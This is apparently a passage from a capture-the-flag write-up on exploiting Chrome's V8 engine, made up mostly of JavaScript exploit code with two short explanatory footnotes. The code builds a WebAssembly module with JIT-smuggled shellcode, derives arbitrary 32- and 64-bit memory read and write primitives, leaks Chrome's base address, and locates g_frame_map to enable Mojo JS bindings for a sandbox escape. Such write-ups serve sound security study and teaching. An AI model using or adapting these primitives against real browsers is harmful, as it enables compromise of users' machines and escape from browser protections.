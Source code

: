 ```html

  function makeInstance() {
      var global2 = new WebAssembly.Global({value:'i64', mutable:true}, 0n);
      var wasm_code2 = new Uint8Array([0,97,115,109,1,0,0,0,1,136,128,128,128,0,1,96,3,127,127,127,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,142,128,128,128,0,2,6,109,101,109,111,114,121,2,0,1,97,0,0,10,238,128,128,128,0,1,232,128,128,128,0,0,32,0,184,68,55,19,55,19,55,19,55,19,160,32,1,184,160,32,2,184,160,68,72,139,9,56,192,144,116,6,160,68,104,0,16,0,0,144,116,6,160,68,94,72,49,255,56,192,116,6,160,68,104,255,15,0,0,95,116,6,160,68,72,247,215,144,144,144,116,6,160,68,72,33,207,56,192,144,116,6,160,68,42,240,83,106,10,88,116,6,160,68,81,15,5,195,0,0,0,1,160,171,11]);
      wasm_code2[wasm_code2.length - 4] = i;
      i++;

      var wasm_mod2 = new WebAssembly.Module(wasm_code2);
      var wasm_instance2 = new WebAssembly.Instance(wasm_mod2, {js: {global2}});
      return wasm_instance2;
  }

  function read32(addr) {
      let wasm_instance2 = makeInstance()
      let f2 = wasm_instance2.exports.a;

      const shellcode_addr = code_addr + 0x680n + 0x25n + 0x1fn;
      c[cageAddressOf(wasm_instance2) / 4 + 24] = Number(shellcode_addr & 0xffffffffn);
      c[cageAddressOf(wasm_instance2) / 4 + 25] = Number((shellcode_addr >> 32n) & 0xffffffffn);
      return s2u(f2(Number(addr & 0xffffffffn), Number((addr >> 32n) & 0xffffffffn)));
  }

  function write32(addr, val) {
      let wasm_instance2 = makeInstance()
      let f2 = wasm_instance2.exports.a;

      const shellcode_addr = code_addr + 0x680n + 0x25n + 0x6bn;
      c[cageAddressOf(wasm_instance2) / 4 + 24] = Number(shellcode_addr & 0xffffffffn);
      c[cageAddressOf(wasm_instance2) / 4 + 25] = Number((shellcode_addr >> 32n) & 0xffffffffn);
      f2(Number((addr >> 32n) & 0xffffffffn), Number(addr & 0xffffffffn), val);
  }

  function read64(addr) {
    return BigInt(read32(addr)) | (BigInt(read32(addr + 4n)) << 32n);
  }

  let leakInstance = makeInstance();
  let codePointer = BigInt(c[cageAddressOf(leakInstance) / 4 + 24]) | (BigInt(c[cageAddressOf(leakInstance) / 4 + 25]) << 32n);
  let textPointer = read64(codePointer + 0x148n)
  print(`Code pointer: ${hex(codePointer)}`);
  print(`Text pointer: ${hex(textPointer)}`);

  let chrome_base = textPointer - 0x590ce00n;

  // From https://github.com/google/google-ctf/blob/master/2021/quals/pwn-fullchain/healthcheck/chromium_exploit.html#L122
  // nm chrome | grep g_frame_map | awk '{print $1}'
  const g_frame_map_offset = 0x000000000e34d168n;
  // Disassemble content::RenderFrameImpl::EnableMojoJsBindings
  const enable_mojo_js_bindings_offset = 0x448n;

  // g_frame_map is a LazyInstance<FrameMap>, i.e. a FrameMap preceded by a
  // pointer to the FrameMap.
  let frame_map_ptr = chrome_base + g_frame_map_offset;
  let g_frame_map = read64(frame_map_ptr);
  assert(g_frame_map === frame_map_ptr + 8n, 'failed to find g_frame_map');
```

[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.
[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.